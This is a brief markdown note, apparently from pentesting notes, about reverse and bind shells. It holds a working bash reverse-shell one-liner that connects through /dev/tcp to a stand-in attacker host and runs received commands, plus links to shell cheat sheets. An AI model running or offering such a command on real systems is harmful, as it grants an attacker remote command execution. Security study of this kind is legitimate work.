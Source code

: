 # Reverse and Bind shells

It's possible to execute remotely command creating a shell that
connects back to home, like this below in ``bash``

```
exec 5<>/dev/tcp/evil.com/<same unfiltered port> $ cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Links

 - [Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
 - https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/
 - [Obtain PTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

